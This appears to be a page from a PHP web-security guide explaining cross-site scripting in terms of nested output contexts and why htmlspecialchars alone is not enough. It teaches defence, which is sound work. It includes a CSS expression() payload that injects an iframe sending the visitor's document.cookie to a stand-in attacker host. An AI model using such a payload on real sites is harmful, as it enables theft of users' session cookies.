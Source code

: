 Cross-Site Scripting And Injecting Context
==========================================

An XSS attack is successful when it can inject Context. The term "Context" relates to how browsers interpret the content of a HTML document. Browsers recognise a number of key Contexts including: HTML Body, HTML Attribute, Javascript, URI and CSS.

The goal of an attacker is to take data destined for one of these Contexts and make browser interpret it as another Context. For example, consider the following:

.. code-block:: php

    <div style="background:<?php echo $colour ?>;">

In the above, $colour is populated from a database of user preferances which influence the background colour used for a block of text. The value is injected into a CSS Context which is a child of a HTML Attribute Context, i.e. we're sticking some CSS into a style attribute. It may seem unimportant to get so hooked up on Context but consider this:

.. code-block:: php

    $colour = "expression(document.write('<iframe src=http://evilattacker.com?cookie=' + document.cookie.escape() + ' height=0 width=0 />'))";

    <div style="background:<?php echo $colour ?>;">

If an attacker can successfully inject that "colour", they can inject a CSS expression which will execute the contained Javascript under Internet Explorer. In other words, the attacker was able to switch out of the current CSS Context by injecting a new Javascript Context.

Now, I was very careless with the above example because I know some readers will be desperate to get to the point of using escaping. So let's do that now.

.. code-block:: php

    $colour = "expression(document.write('<iframe src="
        .= "http://evilattacker.com?cookie=' + document.cookie.escape() + "
        .= "' height=0 width=0 />'))";

    <div style="background:<?php echo htmlspecialchars($colour, ENT_QUOTES, 'UTF-8') ?>;">

If you checked this with Internet Explorer, you'd quickly realise something is seriously wrong. After using htmlspecialchars() to escape $colour, the XSS attack is still working!

This is the importance of understanding Context correctly. Each Context requires a different method of escaping because each Context has different special characters and different escaping needs. You cannot just throw htmlspecialchars() and htmlentities() at everything and pray that your web application is safe.

What went wrong in the above is that the browser will always unesape HTML Attributes before interpreting the context. We ignored the fact there were TWO Contexts to escape for. The unescaped HTML Attribute data is the exact same CSS as the unescaped example would have rendered anyway.

What we should have done was CSS escaped the $colour variable and only then HTML escaped it. This would have ensured that the $colour value was converted into a properly escaped CSS literal string by escaping the brackets, quotes, spaces, and other characters which allowed the expression() to be injected. By not recognising that our attribute encompassed two Contexts, we escaped it as if it was only one: a HTML Attribute. A common mistake to make.

The lesson here is that Context matters. In an XSS attack, the attacker will always try to jump out of the current Context into another one where Javascript can be executed. If you can identify all the Contexts in your HTML output, bearing in mind their nestable nature, then you're ten steps closer to successfully defending your web application from Cross-Site Scripting.

Let's take another quick example:

.. code-block:: html

    <a href="http://www.example.com">Example.com</a>

Omitting untrusted input for the moment, the above can be dissected as follows:

1. There is a URL Context, i.e. the value of the href attribute.
2. There is a HTML Attribute Context, i.e. it parents the URL Context.
3. There is a HTML Body Context. i.e. the text between the <a> tags.

That's three different Contexts implying that up to three different escaping strategies would be required if the data was determined by untrusted data. We'll look at escaping as a defense against XSS in far more detail in the next section.
